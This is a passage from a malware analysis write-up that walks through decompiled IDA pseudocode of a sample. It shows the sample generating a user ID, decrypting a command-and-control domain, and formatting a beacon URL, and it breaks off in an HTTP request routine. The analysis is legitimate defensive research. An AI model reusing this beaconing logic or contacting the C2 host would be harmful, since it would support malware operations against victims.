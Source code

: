 ```cpp
  return randomNum;
}
```
This UserID will be used later.
**Code 24** can be rewritten as:
```cpp
if ( !hasUserIdBeenGenerated )
{
  UserID = GenerateUserID();
  hasUserIdBeenGenerated = 1;
}
```

Now proceeding with **Code 23**, we easily see that `sub_402850(v7[dword_405380], szServerName);` is just a simple decryption function. The debugger shows the final szServerName, which appears to be `732u3hdgfss.com`.

Checking further in **Code 23** while debugging, if we try to decompile the code after the if statement, IDA rewrites the function call to `sub_4028E0` as:
```cpp
 v3 = sub_4028E0(
   Buffer,
   256,
   "searcho?fr=altavista&itag=ody&q=%s%%2C%02x%02x%02x%02x%02x%02x%02x%02x%s&kgs=1&kls=0&p=%d",
   "LJRf0SCBd_PQg6",
   (unsigned __int8)UserID,
   BYTE1(UserID),
   BYTE2(UserID),
   BYTE3(UserID),
   BYTE4(UserID),
   BYTE5(UserID),
   BYTE6(UserID),
   HIBYTE(UserID),
   (const char *)&dword_401304,
   a3);
```
If we check the implementation of `sub_4028E0` it just seems to be `snprintf`.
The "Buffer" ends up containing (in my case): `"searcho?fr=altavista&itag=ody&q=LJRf0SCBd_PQg6%2Ce61bcb45eae47ce1&kgs=1&kls=0&p=21"`

So **Code 23** so far is building an URL to a C2 server with my specific UserID information. This smells like a stager, but let's analyze further.

The only thing left to analyze in **Code 23** is this line:
```cpp
v10 = sub_402580(a1, lpdwNumberOfBytesRead, szServerName, Buffer, (int)&v8, a3);
```

#### Code 26
```cpp
int __cdecl sub_402580(LPVOID *a1,LPDWORD lpdwNumberOfBytesRead,LPCSTR lpszServerName,LPCSTR lpszObjectName,_DWORD *a5,int a6)
{
  HANDLE ProcessHeap; // eax
  HANDLE v8; // eax
  void *lpOptional; // [esp+8h] [ebp-5Ch]
  int Buffer; // [esp+Ch] [ebp-58h] BYREF
  int v11; // [esp+10h] [ebp-54h]
  DWORD dwBufferLength; // [esp+14h] [ebp-50h] BYREF
  HINTERNET hRequest; // [esp+18h] [ebp-4Ch]
  HINTERNET hConnect; // [esp+1Ch] [ebp-48h]
  int v15; // [esp+20h] [ebp-44h] BYREF
  DWORD dwOptionalLength; // [esp+24h] [ebp-40h] BYREF
  CHAR szHeaders[48]; // [esp+28h] [ebp-3Ch] BYREF
  DWORD dwFlags; // [esp+5Ch] [ebp-8h]
  HINTERNET hInternet; // [esp+60h] [ebp-4h]
```